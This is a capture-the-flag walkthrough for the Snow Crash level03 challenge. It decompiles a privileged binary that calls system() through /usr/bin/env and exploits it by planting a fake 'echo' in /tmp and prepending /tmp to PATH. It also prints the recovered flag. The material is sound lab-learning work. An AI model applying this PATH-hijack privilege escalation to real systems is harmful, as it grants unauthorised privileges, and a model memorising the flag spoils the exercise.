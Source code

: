 ```markdown
# Snow Crash – Level03 Walkthrough

## 🧩 Challenge Overview

In **level03**, we are provided with a binary that, when executed, simply prints:

```
Exploit me
```

Our goal is to exploit its behavior to retrieve the flag using the provided `/bin/getflag` binary.

---

## 🔍 Step-by-Step Analysis

### 1. Inspect the Binary

To understand what the binary does internally, several tools were used:

#### 🧪 `ltrace`

Reveals the system call being used:

```bash
ltrace ./level03
...
system("/usr/bin/env echo Exploit me")
```

This tells us that the binary is executing a command via `system()` using `/usr/bin/env echo`.

#### 🧠 `radare2` and `Ghidra`

Decompiled with Ghidra and confirmed with radare2:

```c
int main(int argc, char **argv, char **envp)
{
  __gid_t __rgid = getegid();
  __uid_t __ruid = geteuid();

  setresgid(__rgid, __rgid, __rgid);
  setresuid(__ruid, __ruid, __ruid);

  return system("/usr/bin/env echo Exploit me");
}
```

The key takeaway is that the binary runs `echo` using `env`, which respects the current `PATH`.

---

## ⚙️ Exploitation

We exploit this by creating a fake `echo` that runs the `/bin/getflag` command.

### 1. Create Malicious `echo`

```bash
echo "/bin/getflag" > /tmp/echo
chmod +x /tmp/echo
```

### 2. Modify `$PATH`

```bash
export PATH=/tmp:$PATH
```

This places `/tmp` before `/bin` and `/usr/bin` in the lookup order, so `env` uses our malicious `echo`.

### 3. Run the Binary

```bash
./level03
```

### ✅ Output

```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## ✅ Conclusion

By abusing how `/usr/bin/env` respects the `PATH`, we were able to hijack the `echo` call and execute `/bin/getflag` instead, retrieving the flag successfully.

```
🎯 Final Flag: qi0maab88jeaj46qoumi7maus
```
